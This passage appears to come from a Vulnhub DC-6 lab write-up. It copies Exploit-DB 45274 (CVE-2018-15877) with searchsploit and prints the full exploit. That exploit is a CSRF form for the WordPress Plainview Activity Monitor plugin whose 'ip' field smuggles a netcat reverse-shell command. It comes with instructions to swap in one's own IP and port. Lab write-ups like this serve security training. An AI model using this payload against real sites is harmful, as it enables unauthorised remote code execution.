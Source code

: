 ```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ searchsploit -m 45274               
  Exploit: WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection
      URL: https://www.exploit-db.com/exploits/45274
     Path: /usr/share/exploitdb/exploits/php/webapps/45274.html
    Codes: CVE-2018-15877
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/emvee/Documents/Vulnhub/DC-6/45274.html

```
Now inspect the exploit file.
```exploit
PoC:

-->

  

<html>

<!-- Wordpress Plainview Activity Monitor RCE

[+] Version: 20161228 and possibly prior

[+] Description: Combine OS Commanding and CSRF to get reverse shell

[+] Author: LydA(c)ric LEFEBVRE

[+] CVE-ID: CVE-2018-15877

[+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell

[+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well

-->

<body>

<script>history.pushState('', '', '/')</script>

<form action="http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">

<input type="hidden" name="ip" value="google.fr| nc -nlvp 127.0.0.1 9999 -e /bin/bash" />

<input type="hidden" name="lookup" value="Lookup" />

<input type="submit" value="Submit request" />

</form>

</body>

</html>
```
Well this looks pretty awesome as well... Let's change some settings and exploit it.
![Image](/assets/img/WriteUp/Vulnhub/DC6/Pasted image 20230327211806.png){: width="700" height="400" }
